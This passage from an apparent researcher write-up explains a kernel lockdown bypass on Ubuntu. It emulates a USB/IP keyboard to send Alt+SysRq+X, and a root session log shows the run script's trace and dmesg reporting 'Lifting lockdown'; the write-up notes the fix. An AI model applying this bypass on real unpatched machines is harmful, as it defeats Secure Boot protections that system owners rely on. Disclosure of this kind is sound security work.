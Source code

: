 (The fix actually went into `4.15.0-72-generic`.)

### Method 1: USB/IP

Another way to turn off lockdown is to emulate a USB keyboard via [USB/IP](http://usbip.sourceforge.net/) (as long as it's enabled in the kernel) and send an Alt+SysRq+X key combination through it.
This has actually been previously pointed out by Jann Horn [here](https://lore.kernel.org/patchwork/patch/898080/#1090220).

Ubuntu's kernels have USB/IP enabled (`CONFIG_USBIP_VHCI_HCD=m` and `CONFIG_USBIP_CORE=m`) with signed `usbip_core` and `vhci_hcd` modules provided in the `linux-extra-modules-*` package.

(Jann has also mentioned the Dummy HCD/UDC module, which can indeed by used together with e.g. GadgetFS to do the same trick, but `CONFIG_USB_DUMMY_HCD` is not enabled in Ubuntu kernels.)

[Here](/01-usbip/keyboard.c) you can find the code that emulates a keyboard over USB/IP and sends an Alt+SysRq+X key combination. [This script](/01-usbip/run.sh) shows how to run it.
It's possible to simplify the implementation of this method by directly interacting with the VHCI driver to emulate a USB device, but I didn't bother with this.

(Updated 18.02.2020.) This method and has been fixed in [Ubuntu](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1861238) and [Fedora](https://bugzilla.redhat.com/show_bug.cgi?id=1800859) kernels by dropping the "Add a SysRq option to lift kernel lockdown" patch.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 01-usbip/
# ./run.sh 
...
+ modprobe vhci_hcd
+ modprobe usbip_core
+ echo 1
+ gcc keyboard.c -o keyboard
+ usbip attach -r 127.0.0.1 -b 1-1
+ ./keyboard
waiting for connection...
connection from 127.0.0.1
OP_REQ_IMPORT
+ sleep 3
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 64
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 18
...
+ echo 'Done! Check dmesg.'
Done! Check dmesg.

# dmesg
[  422.346185] vhci_hcd vhci_hcd.0: USB/IP Virtual Host Controller
[  422.346190] vhci_hcd vhci_hcd.0: new USB bus registered, assigned bus number 5
...
[  423.233918] input: x as /devices/platform/vhci_hcd.0/usb5/5-1/5-1:1.0/0003:046D:C312.0002/input/input19
[  423.293702] hid-generic 0003:046D:C312.0002: input,hidraw1: USB HID v1.10 Keyboard [x] on usb-vhci_hcd.0-1/input0
[  423.429609] sysrq: SysRq : Disabling Secure Boot restrictions
[  423.429612] Lifting lockdown
```
